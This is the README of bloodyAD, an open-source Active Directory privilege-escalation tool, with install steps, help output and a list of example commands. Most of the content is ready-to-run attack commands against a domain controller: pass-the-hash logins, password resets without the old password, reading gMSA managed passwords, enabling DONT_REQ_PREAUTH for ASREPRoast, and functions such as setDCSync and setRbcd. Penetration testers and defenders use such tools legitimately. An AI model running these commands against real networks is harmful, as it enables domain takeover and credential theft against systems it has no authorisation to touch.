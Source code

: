 > :warning: autobloody has been moved to its own [repo](https://github.com/CravateRouge/autobloody)  

# ![bloodyAD logo](https://repository-images.githubusercontent.com/415977068/9b2fed72-35fb-4faa-a8d3-b120cd3c396f) bloodyAD

`bloodyAD.py` is an Active Directory privilege escalation swiss army knife

## Description

This tool can perform specific LDAP/SAMR calls to a domain controller in order to perform AD privesc.

`bloodyAD` supports authentication using cleartext passwords, pass-the-hash, pass-the-ticket or certificates and binds to LDAP services of a domain controller to perform AD privesc.

It is designed to be used transparently with a SOCKS proxy.

## Installation

A python package is available:

```ps1
pip install bloodyAD
bloodyAD --host 172.16.1.15 -d bloody.local -k changePassword john.doe 'Password123!'
```

Or you can clone the repo:

```ps1
git clone --depth 1 https://github.com/CravateRouge/bloodyAD
pip install .
bloodyAD --host 172.16.1.15 -d bloody.local -k changePassword john.doe 'Password123!'
```

### Dependencies

- Python 3
- DSinternals
- Impacket
- Ldap3

## Usage

Simple usage:

```ps1
bloodyAD --host 172.16.1.15 -d bloody.local -u jane.doe -p :70016778cb0524c799ac25b439bd6a31 changePassword john.doe 'Password123!'
```

**Note:** You can find more examples on <https://cravaterouge.github.io/>

List of all available functions:

```ps1
[bloodyAD]$ bloodyAD -h
usage: bloodyAD [-h] [-d DOMAIN] [-u USERNAME] [-p PASSWORD] [-k] [-c CERTIFICATE] [-s] [--host HOST]
                   {getObjectAttributes,setAttribute,addUser,addComputer,delObject,changePassword,addObjectToGroup,addForeignObjectToGroup,delObjectFromGroup,getChildObjects,setShadowCredentials,setGenericAll,setOwner,setRbcd,setDCSync,setUserAccountControl}
                   ...

AD Privesc Swiss Army Knife

Main options:
  -h, --help            show this help message and exit
  -d DOMAIN, --domain DOMAIN
                        Domain used for NTLM authentication
  -u USERNAME, --username USERNAME
                        Username used for NTLM authentication
  -p PASSWORD, --password PASSWORD
                        Cleartext password or LMHASH:NTHASH for NTLM authentication
  -k, --kerberos
  -c CERTIFICATE, --certificate CERTIFICATE
                        Certificate authentication, e.g: "path/to/key:path/to/cert"
  -s, --secure          Try to use LDAP over TLS aka LDAPS (default is LDAP)
  --host HOST           Hostname or IP of the DC (ex: my.dc.local or 172.16.1.3)

Commands:
  {getObjectAttributes,setAttribute,addUser,addComputer,delObject,changePassword,addObjectToGroup,addForeignObjectToGroup,delObjectFromGroup,getChildObjects,setShadowCredentials,setGenericAll,setOwner,setRbcd,setDCSync,setUserAccountControl}
                        Function to call
```

Help text to use a specific function:

```ps1
[bloodyAD]$ bloodyAD --host 172.16.1.15 -d bloody.local -u jane.doe -p :70016778cb0524c799ac25b439bd6a31 changePassword -h
usage: 
    Change the target password without knowing the old one using LDAPS or RPC
    Args:
        identity: sAMAccountName, DN, GUID or SID of the target (You must have write permission on it)
        new_pass: new password for the target
    
       [-h] [func_args ...]

positional arguments:
  func_args

optional arguments:
  -h, --help  show this help message and exit
  ```

## How it works

bloodyAD communicates with a DC using mainly the LDAP protocol in order to get information or add/modify/delete AD objects. ~~A password cannot be updated with LDAP, it must be a secure connection that is LDAPS or SAMR. A DC doesn't have LDAPS activated by default because it must be configured (with a certificate) so SAMR is used in those cases.~~ Exchange of sensitive information such as passwords are now supported using cleartext LDAP.

## Useful commands

```ps1
# Get group members
bloodyAD -u john.doe -d bloody -p Password512! --host 192.168.10.2 getObjectAttributes Users member 

# Get minimum password length policy
bloodyAD -u john.doe -d bloody -p Password512! --host 192.168.10.2 getObjectAttributes 'DC=bloody,DC=local' minPwdLength

# Get AD functional level
bloodyAD -u Administrator -d bloody -p Password512! --host 192.168.10.2 getObjectAttributes 'DC=bloody,DC=local' msDS-Behavior-Version

# Get all users of the domain
bloodyAD -u john.doe -d bloody -p Password512! --host 192.168.10.2 getChildObjects 'DC=bloody,DC=local' user

# Get all computers of the domain
bloodyAD -u john.doe -d bloody -p Password512! --host 192.168.10.2 getChildObjects 'DC=bloody,DC=local' computer

# Get all containers of the domain
bloodyAD -u john.doe -d bloody -p Password512! --host 192.168.10.2 getChildObjects 'DC=bloody,DC=local' container

# Enable DONT_REQ_PREAUTH for ASREPRoast
bloodyAD -u Administrator -d bloody -p Password512! --host 192.168.10.2 setUserAccountControl john.doe 0x400000

# Disable ACCOUNTDISABLE
bloodyAD -u Administrator -d bloody -p Password512! --host 192.168.10.2 setUserAccountControl john.doe 0x0002 False

# Get UserAccountControl flags
bloodyAD -u Administrator -d bloody -p Password512! --host 192.168.10.2 getObjectAttributes john.doe userAccountControl

# Read GMSA account password
bloodyAD -u john.doe -d bloody -p Password512 --host 192.168.10.2 getObjectAttributes gmsaAccount$ msDS-ManagedPassword

# Read quota for adding computer objects to domain
bloodyAD -u john.doe -d bloody -p Password512! --host 192.168.10.2 getObjectAttributes 'DC=bloody,DC=local' ms-DS-MachineAccountQuota
```
